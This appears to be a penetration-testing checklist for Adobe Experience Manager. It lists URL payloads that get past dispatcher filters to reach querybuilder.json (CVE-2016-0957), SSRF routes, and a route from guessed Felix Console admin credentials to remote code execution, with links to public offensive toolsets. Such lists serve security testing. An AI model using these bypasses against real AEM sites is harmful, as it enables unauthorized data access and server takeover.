 ## adobe experience manager check list

## CVE-2016-0957
https://exmaple/bin/querybuilder.json (Block)
https://exmaple/bin/querybuilder.json/a.css (Allowed)
https://exmaple/bin/querybuilder.json/a.html (Allowed)
https://exmaple/bin/querybuilder.json/a.ico (Allowed)
https://exmaple/bin/querybuilder.json/a.png (Allowed)
https://exmaple/bin/querybuilder.json;%0aa.css (Allowed)
https://exmaple/bin/querybuilder.json/a.1.json (Allowed)

- bypasses for "interesting" serverlets
https://exmaple/bin/querybuilder.json (Block)
https://exmaple/bin/querybuilder.json/a.css (Block)
https://exmaple/bin/querybuilder.json;%0aa.css (Block)
https://exmaple/bin/querybuilder.json.servlet.css (Allowed)
https://exmaple/bin/querybuilder.json.servlet.html (Allowed)
https://exmaple/bin/querybuilder.json.servlet.ico (Allowed)
https://exmaple/bin/querybuilder.json.servlet.png (Allowed)

- adding multiple slashes:
	- ///etc.json instead of /etc.json
	- ///bin///querybuilder.json instead of /bin/querybuilder.json

## Using SSRF

- we need SSRF in a component that is allowed by AEM dispatcher
-  SSRF should allow to send GET request  and see response
	- opensocial (Shindig) Proxy
	- SSRF in ReportingServicesProxyServlet (CVE-2018-12809)

## Automation

## AEM RCE bundle

- AEM RCE bundle - https://github.com/0ang3el/aem-rce-bundle.git
	- Has pre-build OSGI bundle for AEM 6.2 or newer
- Allows to get RCE when you have access to Felix Console
	- Happens when you guessed admin credentianls

## AEM Hacker toolset

- Toolset - https://github.com/0ang3el/aem-hacker.git
- icludes scripts
	- aem_hacker.py
	- aem_discovery.py
	- aem_enum.py
	- aem_ssrf2rce.py, aem_server.py, reponse.bin
	- aem-rce-sling.sh
- https://github.com/Az0x7/vulnerability-Checklist/blob/main/aem.md
- https://github.com/ethicalhackingplayground/aem-eye